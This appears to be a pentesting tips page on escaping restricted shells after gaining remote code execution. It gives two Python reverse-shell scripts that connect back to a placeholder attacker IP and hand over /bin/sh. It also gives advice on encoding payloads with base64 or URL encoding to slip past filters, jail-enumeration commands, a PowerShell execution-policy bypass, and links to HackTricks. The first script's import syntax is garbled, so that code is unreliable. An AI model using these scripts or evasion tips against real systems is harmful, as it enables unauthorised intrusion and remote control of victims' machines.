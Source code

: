 # TIPS 

If you have obtained a vulnerability such as RCE, file upload or something else, you can use the script below to spawn a shell or backconnect revershell. If the shell does not run see below

1. Make sure the target has internet access (internet access opened)
2. Try changing the port to a larger one such as 8080, 8888, etc. 
3. Encode your script using base64 and then decode it 
4. Encode your script using url encode 
5. Check the compiler 

## Script 1 

```
socket=_import("socket");os=import("os");pty=import_("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT LISTENER>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

## Script 2

```
import socket
import subprocess
import os

def back_connect(host, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    os.dup2(s.fileno(), 0)  
    os.dup2(s.fileno(), 1)  
    os.dup2(s.fileno(), 2)  
    
    subprocess.call(["/bin/sh", "-i"])

host = "<YOUR IP>"  
port = <YOUR LISTENER PORT>           

back_connect(host, port)
```
### Enum about the jail 

```
echo $SHELL
echo $PATH
env
export
pwd
```

*Windows Powershell Pro Tips 

- If you was gett the shell, change to powershell, you can run 

```
powershell -ep bypass 
```

Source 

- [Hacktrikcs Escaping from Jails](https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/escaping-from-limited-bash)
- [Hacktricks github escape from jails](https://github.com/HackTricks-wiki/hacktricks/blob/master/linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
- [0xffsec restricted-shells](https://0xffsec.com/handbook/shells/restricted-shells/)
- [Hacktrikcs powershell-for-pentesters](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)